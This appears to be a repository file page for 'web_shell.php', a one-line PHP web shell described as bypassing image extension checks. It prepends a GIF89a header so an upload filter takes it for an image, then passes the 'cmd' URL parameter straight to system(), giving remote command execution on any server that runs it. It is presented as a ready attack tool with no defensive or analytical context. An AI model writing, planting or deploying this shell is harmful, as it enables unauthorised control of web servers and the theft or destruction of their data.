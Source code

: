# web_shell.php
Web shell written in php with image extension check bypass.

code (PHP): 
GIF89a; <?php system($_GET['cmd']); ?>
